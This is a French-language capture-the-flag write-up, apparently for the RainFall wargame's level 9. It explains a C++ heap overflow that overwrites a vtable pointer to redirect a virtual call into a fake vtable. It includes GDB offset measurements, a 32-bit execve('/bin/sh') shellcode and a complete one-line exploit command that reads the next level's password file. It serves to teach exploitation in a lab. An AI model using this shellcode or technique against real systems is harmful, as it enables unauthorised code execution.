



# Level 9 — C++: heap BoF + fake vtable hijack

## Les deux appels clés (à ne pas confondre)

L'exploit repose sur **deux appels de fonction** distincts : un qui **pose la bombe**, un qui la **déclenche**.

| Appel | Rôle | Ce qu'il fait |
|---|---|---|
| `a->setAnnotation(argv[1])` | 🧨 **pose la bombe** | `strcpy` sans borne → déborde et écrase `b->vtable_ptr`. Rien ne s'exécute encore, on a juste corrompu la mémoire. |
| `*b + *a` (appel virtuel) | 💥 **déclenche** | compile en `call *%edx` ; suit le `vtable_ptr` corrompu → saute sur notre shellcode. |

```
setAnnotation(argv[1])   →  POSE la bombe (overflow, corrompt b->vtable_ptr)
        │
        ▼
*b + *a  →  call *%edx    →  DÉCLENCHE (saute sur le shellcode) 💥
```

Le `call *%edx` est le **cœur de l'exploit** (c'est lui qui exécute le shellcode), mais il
ne marche **que parce que** `setAnnotation` a écrasé `b->vtable_ptr` juste avant. Les lignes
exactes dans `main` :

```asm
8048680:  mov (%eax),%eax       ; eax = *b = b->vtable_ptr  (corrompu par setAnnotation)
8048682:  mov (%eax),%edx       ; edx = *vtable_ptr = notre @shellcode
8048693:  call *%edx            ; ← saute sur le shellcode
```

## Vulnérabilité

`a->setAnnotation(argv[1])` fait `strcpy(a->annotation, argv[1])` sans limite.
`annotation` fait 100 octets, mais on peut écrire bien plus → on déborde dans le chunk de `b` qui est juste après sur la heap.
En écrasant `b->vtable_ptr` (le tout premier champ de `b`), on contrôle où le CPU ira chercher la fonction à appeler à la fin du `main`.

## L'appel final : double indirection

Le `call` à la fin de `main` n'est pas direct, il suit deux pointeurs :

```
1. Lire b->vtable_ptr        (= valeur écrasée par notre BoF)
2. Lire *(b->vtable_ptr)     (= vtable[0])
3. Sauter à cette adresse
```

On contrôle :
- Le **contenu** de `a->annotation` (= `argv[1]` après le strcpy)
- La **valeur** écrasée dans `b->vtable_ptr` (= les derniers octets du débordement)

→ On peut donc faire pointer `b->vtable_ptr` sur `&a->annotation`, où on a fabriqué une **fausse vtable** qui pointe sur notre shellcode (placé juste après dans le même buffer).

## Distance heap (mesurée en GDB)

### Comment trouver les adresses des breakpoints

On ne les connaît pas d'avance : on les lit dans `disas main`.

```
(gdb) set print asm-demangle on   ; traduit les noms C++ (_Znwj -> operator new)
(gdb) disas main
```

Règle : `operator new` (`_Znwj`) renvoie l'adresse allouée dans `eax`. Le breakpoint
se met donc sur l'instruction **juste après le `call`**, là où `eax` contient encore
le résultat :

```asm
0x8048617 <+35>:  call  0x8048530 <_Znwj@plt>   ; operator new (objet a)
0x804861c <+40>:  mov   %eax,%ebx               ; <- BP ici : eax = adresse de a
0x8048639 <+69>:  call  0x8048530 <_Znwj@plt>   ; operator new (objet b)
0x804863e <+74>:  mov   %eax,%ebx               ; <- BP ici : eax = adresse de b
0x8048677 <+131>: call  ... <setAnnotation>     ; setAnnotation
0x804867c <+136>: mov   ...                      ; <- BP ici : voir la heap après copie
```

Même méthode qu'au level2 (breakpoint après `strdup`) : on s'arrête juste après
l'appel pour lire dans `eax` ce que la fonction a renvoyé.

```
break *0x0804861c    ; juste après operator new pour a
break *0x0804863e    ; juste après operator new pour b
break *0x0804867c    ; juste après setAnnotation (utile pour voir la heap)

run AAAA

Breakpoint 1 : eax = 0x804a008    → a = 0x804a008
Breakpoint 2 : eax = 0x804a078    → b = 0x804a078
```

```
&a->annotation = a + 4    = 0x804a00c
&b->vtable_ptr = b        = 0x804a078
distance       = 0x6c     = 108 octets
```

→ Il faut **108 octets** dans `argv[1]` avant d'atteindre `b->vtable_ptr`. Les 4 octets qui suivent écrasent ce pointeur.

## Construction du payload

```
┌──────────────┬──────────────┬─────────────┬──────────────┐
│ fake vtable  │ shellcode    │ padding     │ &fake_vtable │
│ (4 octets)   │ (25 octets)  │ (79 'A')    │ (4 octets)   │
└──────────────┴──────────────┴─────────────┴──────────────┘
   = &shellcode                                = &a->annotation
   = 0x0804a010                                = 0x0804a00c

Total : 4 + 25 + 79 + 4 = 112 octets
```

Détail des 4 blocs :

1. **fake vtable** (`\x10\xa0\x04\x08`) : 4 octets qui pointent vers le shellcode (situé juste derrière dans le buffer, donc à `&annotation + 4` = `0x0804a010`). C'est ce que le CPU lira comme `vtable[0]` au pas 2 de la double indirection.

2. **shellcode** (25 octets) : `execve("/bin/sh", NULL, NULL)` classique 32-bit :
   `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80`

3. **padding** : `'A' * 79` pour atteindre exactement `&b->vtable_ptr` (108 − 4 − 25 = 79).

4. **&fake_vtable** (`\x0c\xa0\x04\x08`) : écrase `b->vtable_ptr` avec l'adresse du début de `annotation`, là où se trouve la fake vtable.

## Trace de l'exécution après le strcpy

État de la heap :

```
0x0804a00c   \x10\xa0\x04\x08              ← fake vtable[0] = &shellcode
0x0804a010   \x31\xc0\x50\x68...           ← shellcode
0x0804a029   AAAA...                       ← padding (79 'A')
0x0804a078   \x0c\xa0\x04\x08              ← b->vtable_ptr écrasé = &annotation
```

Déroulé du `call` final :

```
b             = 0x0804a078
*b            = 0x0804a00c     (= &annotation, qu'on a écrit)
*(0x0804a00c) = 0x0804a010     (= fake vtable[0])
call 0x0804a010                → saute dans le shellcode → /bin/sh
```

## Exploit

```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "A"*79 + "\x0c\xa0\x04\x08"')
```

Pour garder le shell vivant après l'exploit (stdin reste ouvert) :

```bash
(./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "A"*79 + "\x0c\xa0\x04\x08"'); cat)
```

Une fois dans le shell (pas de prompt — c'est normal) :

```
whoami
cat /home/user/bonus0/.pass
```

## À retenir

- En C++, les appels virtuels passent par une **vtable** : double indirection (`b → vtable → fonction`). Écraser `b->vtable_ptr` redirige tout l'appel.
- On ne peut pas pointer `b->vtable_ptr` directement sur le shellcode : le CPU déréférence deux fois. Il faut **fabriquer une fausse vtable** entre les deux : 4 octets dans notre buffer qui contiennent l'adresse du shellcode.
- L'ordre `[fake vtable][shellcode][padding][&fake_vtable]` est imposé par la mécanique de la double indirection — les 4 premiers octets de notre buffer SONT la fake vtable.
- Le shellcode 32-bit `execve("/bin/sh")` fait 25 octets et n'a pas d'octets nuls → passe sans souci dans un `strcpy`.
- Les adresses heap sur RainFall sont **stables** (pas d'ASLR effectif) : ce qu'on mesure en GDB est réutilisable directement.
- Distance 108 = `sizeof(N) + sizeof(chunk_header) − offset(annotation)` ; ça correspond à la mesure `b − (a+4)` = `0x6c`.

## Schéma du workflow (version simple)

### 1. L'idée en 4 étapes



### 2. Notre commande, en 3 morceaux



> La **FIN** (ce qui déborde) dit « retourne au DÉBUT ».
> Le **DÉBUT** dit « va au shellcode ».
> Donc le programme fait : FIN → DÉBUT → shellcode.

### 3. Le « rebond » en image



> Pourquoi 2 sauts (et pas 1) ? Parce qu'en C++ l'appel passe **toujours par 2 flèches**
> (`objet → panneau → fonction`). On ne peut donc pas sauter direct au shellcode :
> il faut un rebond par le début de notre commande.